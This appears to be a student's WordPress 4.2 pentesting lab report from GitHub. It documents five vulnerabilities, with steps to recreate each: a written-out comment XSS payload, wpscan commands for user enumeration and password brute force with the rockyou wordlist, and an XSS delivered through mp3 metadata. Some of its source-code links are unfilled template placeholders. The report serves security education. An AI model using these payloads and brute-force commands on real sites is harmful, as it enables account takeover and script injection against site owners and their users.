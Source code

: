 # Project 7 - WordPress Pentesting

Time spent: 10 hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. (Required) Large File Upload Error XSS
  - [ ] Summary: 
    - Vulnerability types:XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.15
  - [ ] GIF Walkthrough: <img src="Large File Upload Error XSS.gif">
  - [ ] Steps to recreate: An attacker can inject a malicious script in to the filename which a victim tries to upload leading to XSS inside the administrators control panel
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 2. (Required) Comment Cross-Site Scripting
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: <img src="Comment Cross-Site Scripting.gif">
  - [ ] Steps to recreate: Paste the following text in a comment: ```<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px AAAAAAAAAAAA...[64 kb]..AAA'></a>```
          Make sure the character length is 64kb or more.
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 3. (Required) User Enumeration
  - [ ] Summary: 
    - Vulnerability types: User Enumeration
    - Tested in version: 4.2
    - Fixed in version: 4.7.3
  - [ ] GIF Walkthrough: <img src="User Enumeration.gif">
  - [ ] Steps to recreate: Paste the following code to kali-linux terminal: ```wpscan --url wpdistillery.vm --enumerate u```
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 4. (Optional) Password Bruteforce Attack
  - [ ] Summary: 
    - Vulnerability types: Password Bruteforce Attack
    - Tested in version: 4.2
    - Fixed in version: 4.7.3
  - [ ] GIF Walkthrough: <img src="Bruteforce Attack.gif">
  - [ ] Steps to recreate: 
          - Download the wordlist: ```apt-get install wordlists```
          -Extract the wordlist inside: ```/usr/share/wordlists/```
          -Paste the following code to kali-linux terminal: ```wpscan --url wpdistillery.vm --wordlist /usr/share/wordlists/rockyou.txt --username admin```

  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 5. (Optional) Authenticated Cross-Site Scripting (XSS) via Media File Metadata
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.7.3
  - [ ] GIF Walkthrough: <img src="Authenticated Cross-Site Scripting (XSS) via Media File Metadata.gif">
  - [ ] Steps to recreate: 
          -Download the .mp3 from ```https://www.securify.nl/advisory/SFY20160742/xss.mp3```
          -Upload this audio file to Media Library.
          -Create a post with this audio inside a playlist.

  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [2020] [Guruprem Rajpal]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.

